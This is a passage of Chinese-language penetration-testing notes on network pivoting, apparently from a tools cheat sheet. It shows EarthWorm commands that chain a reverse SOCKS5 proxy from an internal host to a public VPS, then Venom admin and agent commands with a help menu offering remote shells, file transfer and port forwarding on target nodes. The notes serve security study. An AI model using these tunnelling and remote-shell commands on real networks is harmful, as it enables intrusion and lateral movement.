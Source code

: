 
C.在B主机上运行命令，将999端口收到的代理请求转交给777端口：

ew -s lcx_listen -l 999 -e 777



D.在C主机上启动SOCKS V5服务，并反弹到B主机的777端口上，命令如下。

ew -s rssocks -d 10.48.128.12 -e 777



E.在MY PC上可以通过访问公网VPS 139.XXX.XX.113:1080来使用在C主机架设的socks5代理。



整个数据流向是：SOCKS V5 → 1080 → 888 →999 →777 → rssocks

### 教程

 http://rootkiter.com/EarthWorm/ 



## venom

有被爽到



启动admin节点：

```shell
./admin_macos_x64 -lport 9999#等待agent连接
./admin_linux_x64 -rhost 192.168.0.103 -rport 9999 # 连接到agent节点
```

启动agent节点

```shell
./agent_linux_x64 -lport 8888 #等待admin连接
./agent_linux_x64 -rhost 192.168.0.103 -rport 9999# 连接到admin节点
```

上线之后

show 查看拓扑

goto移动到id对应的节点

help查看帮助

```
  help                                     Help information.
  exit                                     Exit.
  show                                     Display network topology.
  getdes                                   View description of the target node.
  setdes     [info]                        Add a description to the target node.
  goto       [id]                          Select id as the target node.
  listen     [lport]                       Listen on a port on the target node.
  connect    [rhost] [rport]               Connect to a new node through the target node.
  sshconnect [user@ip:port] [dport]        Connect to a new node through ssh tunnel.
  shell                                    Start an interactive shell on the target node.
  upload     [local_file]  [remote_file]   Upload files to the target node.
  download   [remote_file]  [local_file]   Download files from the target node.
  socks      [lport]                       Start a socks5 server.
  lforward   [lhost] [sport] [dport]       Forward a local sport to a remote dport.
  rforward   [rhost] [sport] [dport]       Forward a remote sport to a local dport.
```
